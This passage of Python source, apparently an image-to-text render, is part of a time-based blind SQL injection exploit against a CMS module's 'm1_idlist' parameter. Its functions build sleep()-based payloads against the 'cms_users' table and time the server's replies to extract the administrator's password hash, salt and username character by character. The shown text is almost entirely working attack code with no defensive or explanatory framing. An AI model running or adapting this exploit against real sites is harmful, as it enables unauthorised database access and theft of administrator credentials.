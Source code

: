 ```
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt
    print('[+] Salt for password found: ' + salt)

def dump_password():
    global flag, password, output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + format(ord(dictionary[i]), 'x')
            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+password+like+0x" +
                ord_password_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password
    print('[+] Password found: ' + password)

def dump_username():
    global flag, db_name, output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + format(ord(dictionary[i]), 'x')
            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+username+like+0x" +
                ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
```